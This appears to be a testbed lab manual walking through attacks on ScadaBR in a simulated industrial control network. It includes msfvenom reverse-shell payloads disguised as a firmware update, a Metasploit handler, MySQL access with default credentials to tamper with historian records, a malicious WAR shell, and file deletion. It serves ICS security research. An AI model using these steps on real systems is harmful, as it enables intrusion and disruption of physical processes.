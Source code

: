 # Manual for Attack Scenarios on ScadaBR

## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

```bash
docker ps 
```

Displays the list of containers, you should have 06 plcs running, scadaBR and sim running.

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

## *Accessing ScadaBR via the docker cli*
1. **Tomcat Dashboard**:
   - URL: `http://172.18.0.10:10010`
   - **Username**: `admin`
   - **Password**: `password`

**NB:** ScadaBR is deployed on a tomcat server so we have to access Tomcat's dashboard to be able to deploy or run the ScadaBR.war file properly

2. **ScadaBR Dashboard**:
   - URL: `http://172.18.0.10:10010/scadaBR/login.htm`
   - **Username**: `admin`
   - **Password**: `admin`


- You could also access scadaBR with docker cli

bash
```bash
docker exec -it scadabr bash
```


## *Setting up the attacker's machine*

Docker command:
```bash
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```bash
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Manipulate ScadaBR database(Historian)*

The first scenario consist of exploiting the database of scadaBR to erase monitoring evidences

If Metasploit is not installed in the attacker's machine, follow these steps:

Attacker's terminal
```bash
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the scadaBR's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o mtu_firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for ScadaBR. The idea is to have access to a target's machine in order to manipulate the scadaBR remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```bash
docker cp attacker:/scripts/mtu_firmware_update.elf scadabr:/home
```

Then in scadabr, we run this 

ScadaBR terminal
```bash
cd home
chmod +x mtu_firmware_update.elf
./mtu_firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener and Mysql exploit*

Attacker's terminal
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system. You can see that the attack can be repeated with ease
- But The aim here is exploit the mysql database deployed in this server, so we could use another exploit instead of multi/handler

Attacker's terminal
```bash
use scanner/mysql/mysql_login 
run rhost=172.18.0.10 rport=3306 username=scadabr password=scadabr createsession=true
sessions -i -1 
query_interactive 
```

- From here we could have access to the database and we can now write any sql query we wish, we can start creating rubbish in the db to disrupt the physical process

![Screenshot](../PLC_attack_scenarios/images/db/atk_8.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_10.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_11.png)

- As we can see, the attacker is capable to manipulate the database and do what so ever he wishes


### *Phase 2 : Stop ScadaBR from working by deleting its configuration files*

- In the attacker's machine we simple create a malicious war file that we going to deploy in the tomcat server 

Attacker's machine
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=172.18.0.18 lport=1234 -f war > shell.war
```

- We deploy this `shell.war` file in the tomcat dashboard and set a Listener on the attacker's machine using netcat

Attacker's machine
```bash
apt install netcat-traditional
nc -lvp 1234
```

- With this, the attacker will be able to access the shell of the tomcat server from the malicious shell.war file and be able to even delete scadaBR configuration files

Attacker's machine
```bash
nc -lvp 1234
cd tomcat7/webapps/ScadaBR/META-INF
rm index.jsp
```

![Screenshot](../PLC_attack_scenarios/images/db/atk_31.png)

![Screenshot](../PLC_attack_scenarios/images/db/atk_30.png)

- This will make scadaBR not available anymore. This testbed can enable you realize lots of simple and complex attacks 


## Summary

As you could see, implementing attacks is really easy to do, you could even more PLCS if you wish. Add more scripts and test them on ICS components easily. We experimented other testbeds and I can assure you, this is one of the easiest low-cost testbed to use for ICS security.
